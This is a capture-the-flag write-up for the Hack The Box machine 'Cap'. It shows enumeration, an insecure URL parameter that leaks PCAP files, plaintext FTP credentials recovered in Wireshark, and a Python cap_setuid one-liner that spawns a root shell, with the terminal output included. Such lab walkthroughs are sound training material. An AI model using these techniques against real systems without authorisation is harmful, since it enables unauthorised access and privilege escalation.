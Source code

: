 ```yaml
---
layout: post
title: "HTB - Cap"
author: "joelczk"
tags: HTB
excerpt_separator: <!--more-->
---
```


I've just completed CAP from HTB! In my opinion, CAP is a rather easy and straight forward box that can be completed fairly quickly (If you know what to look for!). Here's a quick writeup on how I went about solving this box

<!--more-->

## HTB - Cap
**Box** : Cap\
**IP Address** : 10.10.10.245\
**Operating System** : Linux

**Reflections**:
- Learn how to use filter out information using wireshark! 
- `setuid` is KING! ENOUGH SAID :-)

### Enumeration
As usual we will run our good ol' Nmap to identify the services and the OS operating behind each ports. For this box, it is fairly straight forward with only 3 open ports - `21`, `22` and `8081`

Since ports `21` and `22` are ports belonging to FTP and SSH servers respectively, I will start off with the webserver first. 

The website is a fairly simple website that looks like a security dashboard belonging to a user named `Nathan`. The `IP Config` and `Network Status` does not contain any fascinating information that catches my eye, however the `security snapshot` does allow me to download a PCAP file. Furthurmore, I've noticed that I am able to download a few PCAP files by modifying the URLs from `/data/0` to `/data/1`....

![Security Snapshots](../assets/cap/securitysnapshot.png)

We will then proceed to view the PCAP files that we have downloaded. Most of the PCAP files do not contain any interesting information, but the PCAP file downloaded from `http://10.10.10.245/data/0` does contain some interesting information

Initally, I focused on looking at the HTTP packets from wireshark to find exploitable information, but it turns out that the information is hidden in FTP protocol and the credentials are being exchanged in PLAINTEXT!!!
![FTP wireshark packets](../assets/cap/ftp.png)

### Obtaining user flag
Now we will just login to the FTP server using the credentials obtained earlier and download the `user.txt` file to our local server.

```bash    
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.10.245                                                     1 ⚙
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 May 27 09:16 .
drwxr-xr-x    3 0        0            4096 May 23 19:17 ..
lrwxrwxrwx    1 0        0               9 May 15 21:40 .bash_history -> /dev/null
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
-rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
drwx------    2 1001     1001         4096 May 23 19:17 .cache
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
lrwxrwxrwx    1 0        0               9 May 27 09:16 .viminfo -> /dev/null
-r--------    1 1001     1001           33 Aug 08 10:24 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (298.3941 kB/s)
ftp>
```

### Obtaining the system/root flag
Remembering that we still have an SSH server, let's try to SSH into the server, in hopes that we can somehow obtain root privileges by just logging in. Unfortunately, reality strikes us hard (NOTHING NEW! LIFE GOES ON)

So what's next? First, I decided to look for executables or programs in that can run `root` permissions without passwords using `sudo -l` but again, to no avail.

```bash
──(kali㉿kali)-[~]
└─$ ssh nathan@10.10.10.245                                              2 ⚙
nathan@10.10.10.245's password: 
nathan@cap:~$ sudo -l
[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap.
```

As they always say, Third Time's the charm! On my third attempt, I've decided to search for sudo permissions and SUID binaries that could possibly help us escalate privileges and obtain root shells. This time, I've hit jackpot!

```bash
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
nathan@cap:~$ 
```

Here, we noticed that `python3.8` actually has a `setuid` command that can allow us to escalate to UID 0 and obtain the root shell. From there, we will be able to obtain the system/root flag.

```bash
nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# cd /root
root@cap:/root# cat root.txt
```